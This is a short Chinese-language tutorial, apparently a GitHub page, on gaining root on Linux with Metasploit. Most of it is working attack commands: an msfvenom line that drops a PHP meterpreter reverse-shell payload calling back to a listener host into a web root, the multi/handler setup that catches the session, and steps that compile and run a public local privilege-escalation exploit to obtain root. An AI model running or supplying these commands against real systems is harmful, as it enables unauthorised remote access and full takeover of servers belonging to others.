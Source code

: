 ## 1、简介

Metasploit是一款开源的安全漏洞检测工具，可以帮助安全和IT专业人士识别安全性问题，验证漏洞的缓解措施，并管理专家驱动的安全性进行评估，提供真正的安全风险情报。这些功能包括智能开发，代码审计，Web应用程序扫描，社会工程。团队合作，在Metasploit和综合报告提出了他们的发现。

##  2、使用metasploit linux提权

生成攻击载荷

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.31.150 LPORT=12345 -f raw > /var/www/html/shell.php
```

本地监听

```bash
use exploit/multi/handler
set payload php/meterpreter_reverse_tcp 
set lhost 192.168.31.150
set lport 12345
exploit 
```

反弹shell

http://www.webtester.com/shellxx.php

在metasploit设置好监听模块 访问shellx.php 就会获取一个session

![image-20210501223451954](../../acess/image-20210501223451954.png)   

**3、提权命令**

getuid 查看当前用户
shell 使用终端

https://www.exploit-db.com/exploits/37292

```bash
gcc exp.c -o exp
chmod +x exp
./exp
```

![image-20210501230856234](../../acess/image-20210501230856234.png) 

 如果成功就会得到一个root 